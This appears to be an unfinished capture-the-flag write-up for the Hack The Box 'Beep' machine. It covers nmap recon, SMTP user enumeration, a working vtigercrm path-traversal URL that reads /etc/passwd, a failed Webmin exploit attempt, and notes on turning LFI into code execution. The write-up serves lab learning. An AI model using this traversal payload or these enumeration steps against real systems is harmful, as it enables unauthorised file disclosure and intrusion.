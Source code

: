 # *Beep
`* still in progress`
## Recon

Tags for [this box](https://app.hackthebox.com/machines/5):  
> - LFI
> - Web 

Difficulty:
> Easy

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

## Enumeration

The site on 443 is an Elastics CRM login page.  
![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.  
![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

## more Enumeration

There is also a webserver on port 10000.  
![[Pasted image 20220114211041.png]]

An nmap script picked up `CVE-2006-3392`  
![[Pasted image 20220114213707.png]]  
This CVE is linked to [EDB-1997](http://www.exploit-db.com/exploits/1997/).  

Reviewing the exploit shows usage on line 50. No changes are necessary; all variables are provided at runtime instead of hardcoded in varaibles.  
![[Pasted image 20220114214954.png]]

This exploit is throwing errors:  
![[Pasted image 20220114215506.png]]

I found [this answer on StackOverflow](https://stackoverflow.com/a/6382581).  
![[Pasted image 20220114215646.png]]  
Installing the proper version for my php package.  

To identify php version:
```bash
php --version
```
Then install proper version:
```bash
sudo apt install php7.4-curl
```

![[Pasted image 20220114215957.png]]

It appears this exploit is not working even with php-curl installed.

There are a bunch of SSL errors in the NMAP output. It seems Autorecon was scanning using HTTP instead of HTTPS. Will re-run some scans with https.

These commands should be re-run using HTTPS instead of HTTP.
```
curl -sSik https://10.10.10.7:10000/ &&
curl -sSikf https://10.10.10.7:10000/.well-known/security.txt &&
curl -sSikf https://10.10.10.7:10000/robots.txt &&

nmap -vv --reason -Pn -T4 -sV -p 10000 --script="banner,(https* or ssl*) and not (brute or broadcast or dos or external or https-slowloris* or fuzzer)" -oN "/home/nate/hackthebox/beep/scans/tcp10000/tcp_10000_https_nmap.txt" -oX "/home/nate/hackthebox/beep/scans/tcp10000/xml/tcp_10000_https_nmap.xml" 10.10.10.7 &&

whatweb --color=never --no-errors -a 3 -v https://10.10.10.7:10000 2>&1
```

```bash
feroxbuster -u https://10.10.10.7:10000/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,bin,txt" -v -k -n -o /home/nate/hackthebox/beep/scans/tcp80/tcp_80_http_feroxbuster_https.txt
```



## Gotta get a shell.

I have the user flag, but I still don't have code execution. I need to examine the options and decide which route(s) to take.

### Brainstorming: LFI to RCE
- Poison logs
- Maybe RFI?
- 

